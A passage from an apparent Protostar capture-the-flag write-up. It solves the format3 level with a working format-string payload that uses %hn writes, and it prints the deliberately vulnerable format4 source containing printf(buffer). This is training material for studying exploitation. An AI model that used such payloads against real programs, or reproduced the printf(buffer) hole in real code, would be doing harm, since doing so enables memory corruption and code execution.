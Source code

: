 Ok, same thing but now target is checked against a dword, and in order to write such a large number we will be writing two consecutive **shorts**. First thing, find the **target** address:

```lang-bash line-numbers 
user@protostar:~$ objdump -t /opt/protostar/bin/format3 | grep target
080496f4 g     O .bss	00000004              target
```

Next, find the offsite of the **buffer**:

```lang-bash line-numbers 
user@protostar:~$ for i in {1..200};do echo DDDD%$i\$08x > temp; echo "trying offset $i - `/opt/protostar/bin/format3 < temp`"; done | grep DDDD44444444
trying offset 12 - DDDD44444444
```

So the trick here is to split 0x01025544 into 0x0102 and 0x5544 and write them in two consecutive 2bytes memory addresses.

0x0102 = 258
0x5544 = 21828

So we need to write 258 into 0x080496f6 (target + 2 address) and 21828 into 080496f4 (target address) since we are using a little indian system. Also, we only want to write two bytes, so we will use **%hn** for that.

Also, the arguments to printf will be addresses so 4 bytes each. If our buffer starts in the offset 12, then the next printf argument (13) will be 4 bytes from the beggining of our buffer, and thats where we need to place the address of the 2 LSB bytes:


```lang-bash line-numbers 
user@protostar:~$ perl -e 'print "\xf6\x96\x04\x08"."\xf4\x96\x04\x08"."%250d"."%12\$hn"."%21570d"."%13\$hn"' | /opt/protostar/bin/format3
..
..
..
-1073744480you have modified the target :)
```


## Format4
In [Format4](http://www.exploit-exercises.com/protostar/format4) we are given the following vulnerable code:

```lang-clike line-numbers 
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);
}
```